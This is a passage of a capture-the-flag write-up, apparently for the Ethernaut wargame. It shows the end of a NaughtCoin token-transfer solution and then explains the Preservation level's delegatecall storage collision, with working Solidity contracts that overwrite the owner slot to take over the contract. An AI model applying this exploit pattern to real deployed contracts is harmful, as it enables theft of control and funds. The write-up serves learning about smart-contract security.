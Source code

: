 ```javascript
let tx = await naughtCoin.approve(naughtCoinHack.address, hre.ethers.utils.parseEther("1000000"));
await tx.wait();
tx = await naughtCoinHack.transfer(INSTANCE_ADDRESS);
await tx.wait();
console.log(await naughtCoin.balanceOf(owner.address));
```

---

## preservation

Interesting challenge!

The goal is simple, to take the ownership of the contract. We see two public functions `setFirstTime` and `setSecondTime`, both delegating calls to `LibraryContract`. As we know delegate calls are executed in the context of calling of contract (Delegation challenge above) and it poses a risk of storage manipulation.

In `Preservation` contract first storage slot is occupied by `timeZone1Library` address and in the `LibraryContract` first slot in `storedTime` which can be set by `setTime`.

Delegating `setTime` from `Preservation` contract changes the first slot of the `Preservation`, meaning we can store anything there. This gives a hint that if we can store anything in the first slot using a poorly written contract and a delegate call, we can also change slot 3 which is `owner` using similar techniques. To clear this level we need to 

- inject a custom smart contract address in the first slot and make it `timeZone1Library`
- the custom smart contract should have a setTime function 
- then call `setFirstTime` and update the third slot with player's address

```solidity
contract LibraryContractHack {
    // stores a timestamp
    uint256 dummya;
    uint256 dummyb;
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

This contract is using 3 storage slots and `setTime` is manipulating the third one which is owner in `Preservation`. Instead of using js, I simply created a new contract to make the contract calls (I hate doing type manipulation in javascript)

```solidity
contract PreservationHack {
    Preservation preservation;

    constructor(address instance) {
        preservation = Preservation(instance);
        LibraryContractHack libHack = new LibraryContractHack();
        preservation.setFirstTime(uint256(uint160(address(libHack))));
        preservation.setFirstTime(uint256(uint160(msg.sender)));
    }
}
```
